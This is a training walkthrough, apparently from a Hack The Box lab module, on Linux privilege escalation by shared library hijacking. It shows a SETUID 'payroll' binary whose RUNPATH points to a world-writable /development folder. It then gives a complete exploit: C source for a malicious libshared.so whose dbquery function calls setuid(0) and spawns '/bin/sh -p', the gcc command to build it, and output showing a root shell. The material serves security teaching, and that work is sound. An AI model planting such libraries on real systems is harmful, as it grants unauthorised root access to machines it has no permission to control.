 Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell
htb-student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

```shell
htb-student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary.

```shell
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

```

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).

```shell
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.

```shell
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
